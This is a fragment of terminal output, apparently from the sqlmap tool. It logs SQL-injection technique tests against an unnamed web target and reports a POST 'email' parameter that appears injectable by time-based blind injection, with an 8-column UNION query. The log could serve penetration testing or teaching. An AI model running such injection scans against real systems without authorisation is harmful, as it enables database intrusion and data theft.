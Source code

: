 ```bash
[23:17:29] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[23:17:29] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[23:17:29] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[23:17:29] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[23:17:29] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[23:17:29] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[23:17:30] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:17:30] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:17:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[23:17:30] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[23:17:30] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[23:17:30] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[23:17:30] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[23:17:31] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[23:17:31] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[23:17:31] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[23:17:31] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[23:17:31] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[23:17:31] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[23:17:31] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[23:17:31] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[23:17:31] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[23:17:31] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[23:17:31] [INFO] testing 'Generic inline queries'
[23:17:31] [INFO] testing 'MySQL inline queries'
[23:17:31] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[23:17:31] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[23:17:32] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[23:17:32] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[23:17:32] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[23:17:32] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[23:17:32] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[23:17:32] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP)'
[23:17:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP)'
[23:17:33] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP)'
[23:17:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (SLEEP - comment)'
[23:17:33] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (SLEEP - comment)'
[23:17:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP - comment)'
[23:17:33] [INFO] testing 'MySQL >= 5.0.12 OR time-based blind (query SLEEP - comment)'
[23:17:34] [INFO] testing 'MySQL < 5.0.12 AND time-based blind (BENCHMARK)'
[23:17:34] [INFO] testing 'MySQL > 5.0.12 AND time-based blind (heavy query)'
[23:18:34] [INFO] POST parameter 'email' appears to be 'MySQL > 5.0.12 AND time-based blind (heavy query)' injectable 
[23:18:34] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[23:18:34] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[23:18:39] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[23:18:42] [INFO] target URL appears to have 8 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
```